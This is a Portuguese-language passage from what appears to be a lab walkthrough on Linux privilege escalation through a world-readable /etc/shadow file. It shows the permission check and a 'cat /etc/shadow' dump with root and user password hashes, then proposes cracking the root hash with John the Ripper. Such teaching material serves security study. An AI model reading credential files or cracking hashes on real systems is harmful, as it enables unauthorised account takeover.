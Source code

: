 
## **<a id="3"> • Weak File Permissions - Readable /etc/shadow.</a>**

Nesse passo, vamos explorar a escalação de privilégios através de uma falha de permissão de arquivo.

O arquivo /etc/shadow contém hashes de senha de usuário e geralmente pode ser lido apenas pelo usuário root. No entanto, o arquivo /etc/shadow é legível por todos os usuários no sistema: 

```bash
user@debian:/$ ls -l /etc/shadow
-rw-r--rw- 1 root shadow 837 Aug 25  2019 /etc/shadow
```

O arquivo /etc/shadow é legível por todos os usuários no sistema, mas não é gravável por qualquer um deles. Isso significa que, se um usuário não-root conseguir ler o arquivo /etc/shadow, ele poderá obter as senhas de outros usuários no sistema.

Então vamos usar o comando `cat` para ler o arquivo `/etc/shadow` e obter as senhas de outros usuários no sistema.

```bash
user@debian:/$ cat /etc/shadow
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
daemon:*:17298:0:99999:7:::
bin:*:17298:0:99999:7:::
sys:*:17298:0:99999:7:::
sync:*:17298:0:99999:7:::
games:*:17298:0:99999:7:::
man:*:17298:0:99999:7:::
lp:*:17298:0:99999:7:::
mail:*:17298:0:99999:7:::
news:*:17298:0:99999:7:::
uucp:*:17298:0:99999:7:::
proxy:*:17298:0:99999:7:::
www-data:*:17298:0:99999:7:::
backup:*:17298:0:99999:7:::
list:*:17298:0:99999:7:::
irc:*:17298:0:99999:7:::
gnats:*:17298:0:99999:7:::
nobody:*:17298:0:99999:7:::
libuuid:!:17298:0:99999:7:::
Debian-exim:!:17298:0:99999:7:::
sshd:*:17298:0:99999:7:::
user:$6$M1tQjkeb$M1A/ArH4JeyF1zBJPLQ.TZQR1locUlz0wIZsoY6aDOZRFrYirKDW5IJy32FBGjwYpT2O1zrR2xTROv7wRIkF8.:17298:0:99999:7:::
statd:*:17299:0:99999:7:::
mysql:!:18133:0:99999:7:::
```

Vamos salvar a hash de senha do usuário `root` em um arquivo chamado `root.hash` e utilizar o `John The Ripper` para quebrar a hash.
